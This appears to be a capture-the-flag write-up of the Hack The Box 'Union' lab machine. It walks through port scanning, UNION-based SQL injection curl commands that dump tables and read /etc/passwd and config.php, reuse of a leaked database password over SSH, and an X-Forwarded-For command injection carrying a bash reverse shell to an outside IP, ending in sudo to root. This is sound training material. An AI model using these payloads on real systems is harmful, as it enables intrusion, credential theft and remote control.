


# Union
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.128 --min-rate 1000                  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 14:17 GMT
Nmap scan report for 10.10.11.128 (10.10.11.128)
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 131.43 seconds

```
```
└─$ nmap -Pn -p80 -sC -sV 10.10.11.128 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 14:20 GMT
Nmap scan report for 10.10.11.128 (10.10.11.128)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds

```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.128/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 162]
/index.php            (Status: 200) [Size: 1220]
/css                  (Status: 301) [Size: 178] [--> http://10.10.11.128/css/]
/firewall.php         (Status: 200) [Size: 13]
/config.php           (Status: 200) [Size: 0]
/challenge.php        (Status: 200) [Size: 772]

```

## Foothold
- Based on enumeration, there is nothing except for `index.php` and `challenge.php` input forms
  - When we enter text to `index.php` input form, we receive a response with the input we supplied
  - I tried testing for `SSTI`, but no results



- The interesting thing is when we enter `ippsec` (box's author), we receive error message



- Trying entering special chars didn't work
  - But as soon as we enter basic `sqli`, we receive interesting response
    - `test' or 1=1;-- -`
  - We don't get the link back as we did if we entered simple text


- Trying `union` injection works, since we receive `Sorry, 1 you are not eligible due to already qualifying.`
  - We could've also test by entering `ippsec;-- -`, since if there were no injection we would've not received: `Sorry, ippsec you are not eligible due to already qualifying.`
    - So if there were no injection, we would received something like `Congratulations ippsec;-- - you may compete in this tournament`
    - Thus the query could look like: `SELECT username from users if username = '<INPUT>';`


- Let's enumerate the user


- We could make it a one-liner
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select user() -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
uhc@localhost  
```

- Let's continue
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
mysql,information_schema,performance_schema,sys,november
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november' -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 
flag,players
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november'-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 
flag:one,players:player  
```

- Let's dump the data
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(one) from flag-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
UHC{F1rst_5tep_2_Qualify}  
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(player) from players-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
ippsec,celesian,big0us,luska,tinyboy 
```

- If we enter the flag to `challenge.php`, we are redirected to `firewall.php`
  - We are granted access to `ssh`, which can be confirmed via `nmap`


- Now, if we check permissions of `mysql`, we have a permission to read files
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(user,':', file_priv ) from mysql.user-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
debian-sys-maint:Y,mysql.infoschema:N,mysql.session:N,mysql.sys:N,root:Y,uhc:Y 
```

- Let's enumerate file system
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select load_file('/etc/passwd')-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
root:x:0:0:root:/root:/bin/bash
<SNIP>
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
```

- No private key in users' home directory
  - But we can check the source code
  - We can go through each file we saw from `gobuster`
  - The most interesting is `config.php`
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select load_file('/var/www/html/config.php')-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

- We can test for password reuse
  - And it works
```
└─$ sshpass -p uhc-11qual-global-pw ssh uhc@10.10.11.128
Warning: Permanently added '10.10.11.128' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ 
```
## User
- Nothing much
  - But analysing `firewall.php` reveals a possible `command injection`
```
uhc@union:/var/www/html$ cat firewall.php 
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
                <h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>

        </div>
        <section class="bg-dark text-center p-5 mt-4">
                <div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
                </div>
        </section>
</div>

```

- The line we have to target is `system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");`
  - The `$ip` is set via `$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];`
  - We can modify `X-FORWARDED-FOR` header and perform the injection


- Let's get reverse shell
  - Payload: `X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.16.4/6666 0>&1";`


## Root
- `sudo`
```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL

```

- Rooted
```
www-data@union:~/html$ sudo su
root@union:/var/www/html# 
```